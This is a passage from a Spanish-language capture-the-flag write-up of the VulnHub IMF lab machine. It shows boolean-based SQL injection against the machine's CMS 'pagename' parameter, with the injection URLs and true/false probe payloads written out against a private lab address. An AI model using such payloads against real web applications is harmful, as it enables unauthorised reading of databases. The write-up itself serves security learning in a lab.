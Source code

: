 [https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf)

## SQL Injection Boolean Based

La url del CMS es `http://192.168.1.143/imfadministrator/cms.php?pagename=home`

![](/assets/images/VulnHub/IMF/cms.png)

Podemos pensar que se puede acontecer un LFI, RFI, etc... pero ya os adelanto que no conseguiréis nada.<br>
Si probamos a meter una comilla veremos que causamos un error SQL.

`http://192.168.1.143/imfadministrator/cms.php?pagename=home'`

![](/assets/images/VulnHub/IMF/sqlError.png)

Cuando propbamos inyecciones como por ejemplo `' and 1=1'` `' and 'a'='a` `' and (select substring("ch3chu",1,1))="c"'` veremos esto:

`http://192.168.1.143/imfadministrator/cms.php?pagename=home' and 1=1'`

`http://192.168.1.143/imfadministrator/cms.php?pagename=home' and (select substring("ch3chu",1,1))="c"'`

![](/assets/images/VulnHub/IMF/cms.png)

Pero si le decimos que 1=2?<br>
O si le decimos que la primera letra de la palabra "ch3chu" es una "j"?

`http://192.168.1.143/imfadministrator/cms.php?pagename=home' and 1=2'`

`http://192.168.1.143/imfadministrator/cms.php?pagename=home' and (select substring("ch3chu",1,1))="j"'`
